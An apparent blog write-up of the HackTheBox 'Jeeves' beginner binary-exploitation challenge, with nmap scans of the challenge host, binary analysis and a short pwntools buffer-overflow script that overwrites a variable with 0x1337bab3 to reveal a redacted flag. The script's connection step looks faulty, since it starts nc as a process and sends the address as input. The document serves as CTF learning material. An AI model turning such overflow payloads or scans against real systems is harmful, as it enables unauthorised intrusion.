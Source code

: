 ```yaml
---
layout: post
title:  "Jeeves-hackthebox:intro to binary exploitation"
image: ''
date:   2021-11-06 00:06:31
tags:
- hackthebox
- binary_exploitation
description: ''
categories:
- hackthebox 
---
```



## Given

```
host
165.227.225.205:31382

challenge description
How are you doing, sir?

some binary file
jeevs
```
I started by scanning the host
```bash
 nmap -Pn --min-rate 4500 --max-rtt-timeout 1500ms   165.227.225.205 -p- 
```


## analysing jeevs file 

file type
```
./jeeves: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

`strings` gives nothing intresting 


## jeeves data flow
```
jeeves run --> asks for name --> hello $name exits
```

## nmap output

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 16:58 EET
Nmap scan report for 165.227.225.205
Host is up (0.17s latency).
Not shown: 65499 filtered ports, 35 closed ports
PORT      STATE SERVICE
31251/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 29.74 seconds
```


one port open

## analysing port:
```bash
 nmap -Pn -sC -sV 165.227.225.205 -p31251
```

output

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 17:00 EET
Nmap scan report for 165.227.225.205
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
31251/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Employee File Manager

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.50 seconds
```

Looking into jeeves page on port 31251
![](https://i.imgur.com/qHSg99V.png)



seems same binary is deployed there
lets try connectingto it with `nc`
![](https://i.imgur.com/tNgoUQK.png)



## further analysing binary with ghidra

we realise we need 60 x a to reach the var we want

![](https://i.imgur.com/TtA2Muk.png)

so I used pwn tools witn nc

```
from pwn import *

target = process("nc")
target.sendline("209.97.187.130 32259")

payload = "A"*60
payload += p64(0x1337bab3)

target.sendline(payload)
print (target.recvuntil("}"))
```

and we get the flag
![](https://i.imgur.com/kQxpVE8.png)


```
flag
 HTB{hidden}

```
#easy
#binary


